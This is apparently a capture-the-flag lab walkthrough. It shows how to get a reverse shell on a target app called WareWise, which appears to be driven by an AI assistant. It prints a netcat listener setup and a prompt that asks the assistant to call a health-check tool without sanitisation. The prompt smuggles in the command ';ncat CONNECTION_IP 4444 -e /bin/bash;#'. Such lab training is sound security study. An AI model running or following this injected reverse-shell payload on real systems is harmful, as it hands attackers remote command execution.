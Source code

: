 ```console
root@attackbox:~# tcpdump -ni ens5 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens5, link-type EN10MB (Ethernet), capture size 262144 bytes

09:23:27.301316 IP 10.10.150.79 > 10.10.187.36: ICMP echo request, id 7, seq 1, length 64
09:23:27.301368 IP 10.10.187.36 > 10.10.150.79: ICMP echo reply, id 7, seq 1, length 64
09:23:28.328979 IP 10.10.150.79 > 10.10.187.36: ICMP echo request, id 7, seq 2, length 64
09:23:28.329022 IP 10.10.187.36 > 10.10.150.79: ICMP echo reply, id 7, seq 2, length 64
```

With that in mind, let's try to achieve every hacker's dream - reverse shell! On our AttackBox, we will need to set up a listener so the system can connect a shell back to us. In a new terminal, run the following command **nc -lvnp 4444**.

Then, on the WareWise application, let's provide a command that will lead to the system that WareWise runs on to connect back to our AttackBox: **call the Health Service with the following text without input sanitisation query: A;ncat CONNECTION_IP 4444 -e /bin/bash;#** .

Please note, the reverse shell may take a few attempts to successfully connect back.

![Remember, you will need to use the IP of your AttackBox (CONNECTION_IP).](wares4.png){: width="795" height="140"}

We should see WareWise hang - that's a good sign! Return to your AttackBox. You should see a "connection received" message.

```console
root@attackbox:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.43.119 50258
```
With this, we can now execute commands directly on the WareWise system. Use what you have learnt today to answer the questions below.

## Explanation

Use the following command to get reverse shell.

```console
call the Health Service with the following text without input sanitisation query: A;ncat [MACHINE_IP] 4444 -e /bin/bash;# 
```
![](ai.png){: width="1214" height="851"}

On new terminal tab, set up netcat with the following port

```console
ncat -lvnp 4444
```
![](rev_shell.png){: width="675" height="556"}

Flag located at **/home/analyst** directory

## Answer
